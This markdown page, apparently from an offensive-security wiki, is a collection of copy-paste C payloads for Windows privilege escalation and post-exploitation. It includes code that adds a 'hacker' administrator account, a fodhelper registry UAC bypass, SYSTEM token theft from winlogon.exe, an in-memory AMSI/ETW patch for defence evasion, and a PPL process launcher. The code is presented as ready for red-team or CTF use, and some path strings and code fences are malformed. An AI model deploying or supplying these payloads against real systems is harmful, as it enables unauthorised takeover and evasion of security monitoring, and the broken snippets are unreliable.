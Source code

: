 # Windows C Payloads


This page collects **small, self-contained C snippets** that are handy during Windows Local Privilege Escalation or post-exploitation.  Each payload is designed to be **copy-paste friendly**, requires only the Windows API / C runtime, and can be compiled with `i686-w64-mingw32-gcc` (x86) or `x86_64-w64-mingw32-gcc` (x64).

> ⚠️  These payloads assume that the process already has the minimum privileges necessary to perform the action (e.g. `SeDebugPrivilege`, `SeImpersonatePrivilege`, or medium-integrity context for a UAC bypass).  They are intended for **red-team or CTF settings** where exploiting a vulnerability has landed arbitrary native code execution.

---

## Add local administrator user

```c
// i686-w64-mingw32-gcc -s -O2 -o addadmin.exe addadmin.c
#include <stdlib.h>
int main(void) {
    system("net user hacker Hacker123! /add");
    system("net localgroup administrators hacker /add");
    return 0;
}
```
```
---

## UAC Bypass – `fodhelper.exe` Registry Hijack (Medium → High integrity)
When the trusted binary **`fodhelper.exe`** is executed, it queries the registry path below **without filtering the `DelegateExecute` verb**.  By planting our command under that key an attacker can bypass UAC *without* dropping a file to disk.

*Registry path queried by `fodhelper.exe`*
```
HKCU\Software\Classes\ms-settings\Shell\Open\command
```
```A minimal PoC that pops an elevated `cmd.exe`:

```c
// x86_64-w64-mingw32-gcc -municode -s -O2 -o uac_fodhelper.exe uac_fodhelper.c
#define _CRT_SECURE_NO_WARNINGS
#include <windows.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main(void) {
    HKEY hKey;
    const char *payload = "C:\\Windows\\System32\\cmd.exe"; // change to arbitrary command

    // 1. Create the vulnerable registry key
    if (RegCreateKeyExA(HKEY_CURRENT_USER,
        "Software\\Classes\\ms-settings\\Shell\\Open\\command", 0, NULL, 0,
        KEY_WRITE, NULL, &hKey, NULL) == ERROR_SUCCESS) {

        // 2. Set default value => our payload
        RegSetValueExA(hKey, NULL, 0, REG_SZ,
            (const BYTE*)payload, (DWORD)strlen(payload) + 1);

        // 3. Empty "DelegateExecute" value = trigger (")
        RegSetValueExA(hKey, "DelegateExecute", 0, REG_SZ,
            (const BYTE*)"", 1);

        RegCloseKey(hKey);

        // 4. Launch auto-elevated binary
        system("fodhelper.exe");
    }
    return 0;
}
```
```*Tested on Windows 10 22H2 and Windows 11 23H2 (July 2025 patches). The bypass still works because Microsoft has not fixed the missing integrity check in the `DelegateExecute` path.*

---

## Spawn SYSTEM shell via token duplication (`SeDebugPrivilege` + `SeImpersonatePrivilege`)
If the current process holds **both** `SeDebug` and `SeImpersonate` privileges (typical for many service accounts), you can steal the token from `winlogon.exe`, duplicate it, and start an elevated process:

```c
// x86_64-w64-mingw32-gcc -O2 -o system_shell.exe system_shell.c -ladvapi32 -luser32
#include <windows.h>
#include <tlhelp32.h>
#include <stdio.h>

DWORD FindPid(const wchar_t *name) {
    PROCESSENTRY32W pe = { .dwSize = sizeof(pe) };
    HANDLE snap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (snap == INVALID_HANDLE_VALUE) return 0;
    if (!Process32FirstW(snap, &pe)) return 0;
    do {
        if (!_wcsicmp(pe.szExeFile, name)) {
            DWORD pid = pe.th32ProcessID;
            CloseHandle(snap);
            return pid;
        }
    } while (Process32NextW(snap, &pe));
    CloseHandle(snap);
    return 0;
}

int wmain(void) {
    DWORD pid = FindPid(L"winlogon.exe");
    if (!pid) return 1;

    HANDLE hProc   = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, pid);
    HANDLE hToken  = NULL, dupToken = NULL;

    if (OpenProcessToken(hProc, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &hToken) &&
        DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &dupToken)) {

        STARTUPINFOW si = { .cb = sizeof(si) };
        PROCESS_INFORMATION pi = { 0 };
        if (CreateProcessWithTokenW(dupToken, LOGON_WITH_PROFILE,
                L"C\\\\Windows\\\\System32\\\\cmd.exe", NULL, CREATE_NEW_CONSOLE,
                NULL, NULL, &si, &pi)) {
            CloseHandle(pi.hProcess);
            CloseHandle(pi.hThread);
        }
    }
    if (hProc) CloseHandle(hProc);
    if (hToken) CloseHandle(hToken);
    if (dupToken) CloseHandle(dupToken);
    return 0;
}
```
```For a deeper explanation of how that works see:

[[sedebug-+-seimpersonate-copy-token.md]]

---

## In-Memory AMSI & ETW Patch (Defence Evasion)
Most modern AV/EDR engines rely on **AMSI** and **ETW** to inspect malicious behaviours.  Patching both interfaces early inside the current process prevents script-based payloads (e.g. PowerShell, JScript) from being scanned.

```c
// gcc -o patch_amsi.exe patch_amsi.c -lntdll
#define _CRT_SECURE_NO_WARNINGS
#include <windows.h>
#include <stdio.h>

void Patch(BYTE *address) {
    DWORD oldProt;
    // mov eax, 0x80070057 ; ret  (AMSI_RESULT_E_INVALIDARG)
    BYTE patch[] = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
    VirtualProtect(address, sizeof(patch), PAGE_EXECUTE_READWRITE, &oldProt);
    memcpy(address, patch, sizeof(patch));
    VirtualProtect(address, sizeof(patch), oldProt, &oldProt);
}

int main(void) {
    HMODULE amsi  = LoadLibraryA("amsi.dll");
    HMODULE ntdll = GetModuleHandleA("ntdll.dll");

    if (amsi)  Patch((BYTE*)GetProcAddress(amsi,  "AmsiScanBuffer"));
    if (ntdll) Patch((BYTE*)GetProcAddress(ntdll, "EtwEventWrite"));

    MessageBoxA(NULL, "AMSI & ETW patched!", "OK", MB_OK);
    return 0;
}
```
```*The patch above is process-local; spawning a new PowerShell after running it will execute without AMSI/ETW inspection.*

---

## Create child as Protected Process Light (PPL)
Request a PPL protection level for a child at creation time using `STARTUPINFOEX` + `PROC_THREAD_ATTRIBUTE_PROTECTION_LEVEL`. This is a documented API and will only succeed if the target image is signed for the requested signer class (Windows/WindowsLight/Antimalware/LSA/WinTcb).

```c
// x86_64-w64-mingw32-gcc -O2 -o spawn_ppl.exe spawn_ppl.c
#include <windows.h>

int wmain(void) {
    STARTUPINFOEXW si = {0};
    PROCESS_INFORMATION pi = {0};
    si.StartupInfo.cb = sizeof(si);

    SIZE_T attrSize = 0;
    InitializeProcThreadAttributeList(NULL, 1, 0, &attrSize);
    si.lpAttributeList = (PPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, attrSize);
    InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &attrSize);

    DWORD lvl = PROTECTION_LEVEL_ANTIMALWARE_LIGHT; // choose the desired level
    UpdateProcThreadAttribute(si.lpAttributeList, 0,
        PROC_THREAD_ATTRIBUTE_PROTECTION_LEVEL,
        &lvl, sizeof(lvl), NULL, NULL);

    if (!CreateProcessW(L"C\\\Windows\\\System32\\\notepad.exe", NULL, NULL, NULL, FALSE,
                        EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &si.StartupInfo, &pi)) {
        // likely ERROR_INVALID_IMAGE_HASH (577) if the image is not properly signed for that level
        return 1;
    }
    DeleteProcThreadAttributeList(si.lpAttributeList);
    HeapFree(GetProcessHeap(), 0, si.lpAttributeList);
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);
    return 0;
}
```
```
Levels used most commonly:
- `PROTECTION_LEVEL_WINDOWS_LIGHT` (2)
- `PROTECTION_LEVEL_ANTIMALWARE_LIGHT` (3)
- `PROTECTION_LEVEL_LSA_LIGHT` (4)

Validate the result with Process Explorer/Process Hacker by checking the Protection column.

---

## References
* Ron Bowes – “Fodhelper UAC Bypass Deep Dive” (2024)
* SplinterCode – “AMSI Bypass 2023: The Smallest Patch Is Still Enough” (BlackHat Asia 2023)
* CreateProcessAsPPL – minimal PPL process launcher: https://github.com/2x7EQ13/CreateProcessAsPPL
* Microsoft Docs – STARTUPINFOEX / InitializeProcThreadAttributeList / UpdateProcThreadAttribute

